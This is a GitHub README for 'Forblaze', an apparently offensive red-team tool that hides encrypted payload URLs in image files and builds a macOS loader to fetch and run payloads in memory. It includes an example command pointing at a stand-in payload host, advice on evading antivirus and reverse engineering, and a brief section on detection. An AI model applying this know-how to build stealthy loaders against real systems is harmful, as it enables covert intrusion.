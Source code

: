 # Forblaze - A Python Mac Steganography Payload Generator
Author: AsaurusRex

## Disclaimer
DO NOT use this project for purposes other than legitimate red teaming/pentesting jobs, or research.  DO NOT use this for illegal activity of any kind, and know that this project is intended for research purposes and to help advance the missions of both red and blue teams.  

## Purpose
Forblaze is a project designed to provide steganography capabilities to Mac OS payloads.  Using python3, it will build an Obj-C file for you which will be compiled to pull desired encrypted URLs out of the stego file, fetch payloads over https, and execute them directly into memory.  It utilizes custom encryption - it is not cryptographically secure, but purely to thwart analysis by AV engines.  It is a slight deviation on my previously built custom encryption for Windows, called Rubicon, and is more simple in practice.  Forblaze utilizes header and footer bytes to identify where in the stego file your encrypted bytes are, and then decrypts them with a hard-coded key in compile_forblaze.m.  This key can be saved and re-used, with the effect that a different URL could be used to fetch a different payload, and the same compiled forblaze should still be able to execute and process it (provided the header and footer bytes aren't changed, and the new stego file is uploaded to the correct location.) 

## Requirements:
Python3 (only tested with Python3.9+), and some associated Python libraries - pip3 should take care of any python dependencies you need.  In addition, clang will be used for compilation, and forblaze should be run on a mac so that forblaze can be correctly compiled.  

## Usage

usage: forblaze_url.py [-h] [-innocent_path PATH] [-o OUTPUT] [-len_key LENGTH_OF_KEY] [-compile_file COMPILE_FILE]
                       [-url_to_encrypt URL] [-supply_key SUPPLIED_KEY] [-stego_location STEGO_LOCATION]
                       [-compiled_binary COMPILED_BINARY]

Generate stego for implants.

optional arguments:

  -h, --help            show this help message and exit

  -innocent_path PATH   Provide the full path to the innocent file to be used.

  -o OUTPUT             Provide the path where you want your stego file to be placed.

  -len_key LENGTH_OF_KEY
                        Provide a positive integer that will be the length of the key in bytes. Default is 16. Must be between 10 and 50 bytes.


  -url_to_encrypt URL   Provide the URL you want to stick inside the compile file.

  -supply_key SUPPLIED_KEY
                        If you wish to use a specific key, provide it here. It must be in the format: -supply_key "\\x6e\\x60\\x..." - aka two double slashes are needed between each byte,
                        or else it WILL NOT WORK.

  -stego_location STEGO_LOCATION
                        You must provide a location on target where the stego file will reside. It is wise to follow strict full paths: /Users/<>/Documents/file.jpg for example.

  -compiled_binary COMPILED_BINARY
                        Give the name of the compiled binary to extract the URL and run code in memory from the stego file. The default is forblaze.

  -method METHOD        Select which method you wish to use. Method 1 relies on executing a dylib directly into memory, and works with Go payloads as well as regular payloads. Method 2
                        relies on executing a macho file directly into memory, but does not work with Go compiled payloads. Method 3 is method 1 but relies on fetchting the decrypting key
                        over a server, which is more opsec friendly. The default method is 1. NOTE: You still might need to edit the 'module' (aka RunMain) manually depending on your
                        execution method!

  -key_url KEY_URL      Provide the URL to the key to decrypt the stego file.

```
  python3 forblaze_url.py -innocent_path Land-of-Belle.jpeg -o my_evil_pic.jpeg -len_key 24 -url_to_encrypt "https://your-example.com/test-payload.dylib" -method 1 -stego_location /tmp/my_not_evil_pic.jpeg  -compiled_binary innocent_binary
```

## Opsec Concerns
Honestly, not too many.  Mac OS detections are still pretty poor, especially for in-memory activity.  As an exercise for the reader, you could also call payload bytes directly vs a URL with some slight modifications to this code.  However, depending on the size of your payload, the encryption piece in the python script might take an unacceptably long time to complete.  

Note: since this code compiles to a Mach-O binary (not a dylib, although that can be changed pretty easily in the code), controls like Gatekeeper will prevent it from executing by default unless you can sign the payload or remove the quarantine attribute.  

I would recommend changing things like the number of random bytes generated from the default, and changing the default header and footer bytes that forblaze uses to find the payload in the stego file (as well as the length of those header and footer bytes to perhaps be more inconspicuous). 

For the best OpSec, I recommend fetching your decryption key from an external server you control - then you can control access to that key strictly, making RE much more difficult.

## Detection/Prevention
Steganography is pretty difficult to detect.  If you know where the stego file is, you can begin to extract the suspect bytes after the end of the normal file EOF (so after "FFD9" for jpegs for example).  These suspect bytes will still include the actual encrypted payload and nonsense random bytes, which would be hard to distinguish from each other unless you possess the header and trailing bytes specified by Forblaze.  You could look through these bytes and look for patterns of repeating bytes, since this is how the header and footer bytes with forblaze tend to work, but a skilled operator could make that more difficult to find than the default.  If a payload is caught you could obviously RE the binary and try to locate the stego file, and then try to use the hard-coded key and headers/footers to reverse the URL being called (or other bytes).  But that all assumes you found the binary by some other means.  


## Testing 
This tool has been tested on various versions of Mac OS, including Big Sur and Catalina (x64 systems).  Please let me know if you have problems. 

## Technical Nitty Gritty

The custom encryption is a basic Caesar cipher, where different bytes of the key are used to shift the bytes of your plaintext bytes.  This is why larger keys aren't NECESSARILY better for your encryption - it depends on the length of your plaintext.  If your plaintext is 50 bytes, and you use a 150 byte key, only the first 50 bytes of your key will be used.  If your plaintext is > 150 bytes however, the longer keys would be more secure.  

The steganography is quite simple: the bytes of your original innocent file  are kept the same, and random bytes (along with your encrypted payload bytes) are appended after these bytes.  These random bytes are by default anywhere between 2 and 2000 in length (this should likely be changed to fit your plaintext size -> larger plaintexts should mean more random bytes are generated).  

The in-memory execution piece is following https://blogs.blackberry.com/en/2017/02/running-executables-on-macos-from-memory, as well as the maisal loader (can't find the link at the moment), with the simple change that instead of reading payload bytes from an on-disk file, they are read over http/https.    


## Contributions/Comments/Criticisms
I am very open to receiving comments and to collaboration!  Hopefully this helps generate useful discussion around the topic of custom crypto, or provides researchers some new insights.  
